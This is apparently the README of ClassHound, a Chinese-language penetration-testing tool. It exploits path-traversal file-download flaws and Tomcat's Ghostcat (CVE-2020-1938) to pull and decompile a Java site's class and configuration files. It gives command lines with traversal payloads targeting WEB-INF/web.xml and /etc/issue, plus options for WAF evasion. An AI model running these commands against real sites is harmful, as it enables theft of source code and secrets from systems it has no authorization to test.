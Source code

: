 # ClassHound
**利用任意文件下载漏洞自动循环下载并反编译class文件获得网站源码**

![Version](https://img.shields.io/badge/version-2.1-green.svg) ![License](https://img.shields.io/badge/license-MIT-red.svg) [![Python Version](https://img.shields.io/badge/python-2.7&3.7-orange.svg)](https://www.python.org/)  



### 注意事项

```
1. 使用过程中的 bug 和优化建议欢迎提 issue
2. 程序运行请先安装 requirements.txt 中的 python 模块, 并配置好 java 环境变量
3. 程序仅作为安全研究和授权测试使用, 开发人员对因误用和滥用该程序造成的一切损害概不负责
```



### 下载安装

```bash
git clone --depth=1 --branch=master https://www.github.com/LandGrey/ClassHound.git
cd ClassHound/
sudo pip install -r requirements.txt
sudo chmod +x classhound.py
python classhound.py -h
```



### 使用效果

![GIF.gif](https://raw.githubusercontent.com/LandGrey/ClassHound/master/resource/GIF.gif)



### 使用方法

### 0x00: 指定目标链接

#### 参数：-u/--url

指定可 **正常下载文件** 的链接, 并默认使用 `#` 字符标记任意文件下载漏洞的文件位置

```html
例如可正常下载 1.png 文件的链接如下：http://127.0.0.1/download.jsp?path=images/1.png
任意文件下载漏洞载荷位置正好在 1.png，可以使用命令：
python classhound.py -u "http://127.0.0.1/download.jsp?path=images/#1.png#"

或者使用链接 http://127.0.0.1/download.jsp?path=../../../WEB-INF/web.xml 可正常下载文件时,
也可使用命令: 
python classhound.py -u "http://127.0.0.1/download.jsp?path=#../../../WEB-INF/web.xml#"
```



### *0x01:* 指定下载失败关键词

#### 参数：-k/--keyword

指定**下载失败时**页面会出现的关键字，可用来辅助程序判断是否下载成功

```html
如 -k "404 not found" ，不清楚或不固定时，可以不指定
```



### *0x02:* 指定POST请求数据

#### 参数：-p/--post

使用 POST 请求下载文件

```
python classhound.py -u "http://127.0.0.1/download.jsp" --post "path=images/#1.png#"
```



### *0x03:* 指定文件遍历字符

#### 参数：-tc/--travel-char  (推荐使用)

直接指定**文件遍历字符**，默认是 `../`

```
当

1. 已知文件遍历字符
2. 需要通过更改文件遍历字符绕过 WAF
3. 程序没有自动探测出来特殊的遍历字符时

推荐显示使用该选项，会减少不必要的探测请求，程序不容易出错
```



### *0x04:* 指定遍历字符数量

#### 参数：-cc/--char-count  (推荐使用)

直接指定下载 `WEB-INF/web.xml` 文件时的**遍历字符数量**



```
程序没有自动探测出来遍历字符数量时，可以单独指定

例如，可使用 http://127.0.0.1/download.jsp?path=../../../WEB-INF/web.xml 下载 WEB-INF/web.xml 文件时，此时的遍历字符数量为 3 个

可使用命令：
python classhound.py -u "http://127.0.0.1/download.jsp?path=images/#1.png#" -tc "../" -cc 3
```



### *0x05:* 指定父路径

#### 参数：-bp/--base-path

指定 `WEB-INF/web.xml` 的父路径



```
例如当因目录原因，直接跳目录用 ../../../WEB-INF/web.xml 并不能下载 WEB-INF/web.xml 文件，需要用 ../../../../../../../opt/tomcat/webapps/cms/WEB-INF/web.xml 才可以下载成功时：

可以用 
-bp opt/tomcat/webapps/cms/  (注意参数值前面无 /，后面有 /)
指定需要拼接的父路径，同时用 -tc ../ 指定文件遍历字符，用 -cc 7 指定需要 7 个遍历字符
```



### *0x06:* tomcat ajp 任意文件读取漏洞利用（CVE-2020-1938）

#### 参数：-vul ghostcat

指定使用该漏洞来下载 class 和配置文件



```
常与 --ajp-port 参数一起使用，指定目标的 ajp 服务监听端口号，默认 8009

完整示例：
python classhound.py -u "http://127.0.0.1:8080/" -vul ghostcat --ajp-port 8009
```



### 其他参数

```markdown
## -s
设置两次HTTP请求间的 sleep time，暂停N秒，防止请求过于频繁被 waf 拦截

## -f
如果想顺带下载些其他已知文件, 可将服务器文件的相对路径一行一个写入文件中, 然后用 -f 参数指定文件
相对路径的文件下载可能需要不一样数量的遍历字符, 可以同时启用 -a/--auto 参数，程序会尝试不同数量的遍历字符
例如创建文件 download.txt，内容如下:
/etc/issue
install/index.jsp
application.properties
ROOT/META-INF/MANIFEST.MF
WEB-INF/classes/me/landgrey/config/config.class

## -a
自动切换遍历字符数量，常和 -f 参数一起使用

## -dc
设置标记漏洞的分隔符，默认为 #

## -mc
设置自动探测时尝试的最大遍历字符数量, 默认 8

## -hh
设置请求时的额外 HTTP header

## -hp
设置 HTTP/HTTPS 代理

```



### 程序修改

极少数情况下，下载的文件可能会被二次处理，比如`在文件头部或尾部添加额外字符`、`文件被编码`等。

此时，可以修改程序中的 `save_file` 函数，在文件在保存到本地前，对文件做额外处理，还原成正常的 `xml` 或 `class` 文件。



### 依赖开源程序

Class 反编译工具 [https://github.com/leibnitz27/cfr](https://github.com/leibnitz27/cfr)

Ghostcat利用脚本 [https://github.com/00theway/Ghostcat-CNVD-2020-10487](https://github.com/00theway/Ghostcat-CNVD-2020-10487)

